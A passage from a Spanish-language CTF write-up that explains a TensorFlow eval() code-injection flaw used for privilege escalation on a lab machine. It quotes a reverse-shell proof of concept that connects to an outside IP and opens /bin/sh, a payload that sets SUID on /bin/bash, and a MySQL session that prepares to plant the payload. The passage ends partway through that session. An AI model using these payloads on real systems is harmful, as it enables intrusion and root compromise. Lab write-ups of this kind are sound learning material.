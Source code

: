```python
def preprocess_input_exprs_arg_string(input_exprs_str):
    input_dict = {}

  for input_raw in filter(bool, input_exprs_str.split(';')):
      ...
        input_key, expr = input_raw.split('=', 1)
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict
```
La inyección ocurre en esa función porque utiliza eval. Por lo tanto, se puede ejecutar código malicioso, en este blog explica donde se produce la falla -> [JFrog](https://jfrog.com/blog/tensorflow-python-code-injection-more-eval-woes/)
el [POC](https://github.com/advisories/GHSA-75c9-jrh4-79mc) de la inyección es el siguiente

```python
hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")
```
En este caso, se está utiliza la inyección de código para enviar una reverse shell. lo que haŕe es que el usuario root asigne permisos SUID a la bash

```python
hello = exec("""__import__("os").system("chmod u+s /bin/bash")""")
```
entonces me conectaré a la base de datos e insertaré el payload en la columna (reason) de la tabla escalate

```bash
diego@forgot:~$ mysql -u diego -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3420
Server version: 8.0.31-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| app                |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)

mysql> use app;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------+
| Tables_in_app |
+---------------+
| admin_tickets |
| escalate      |
```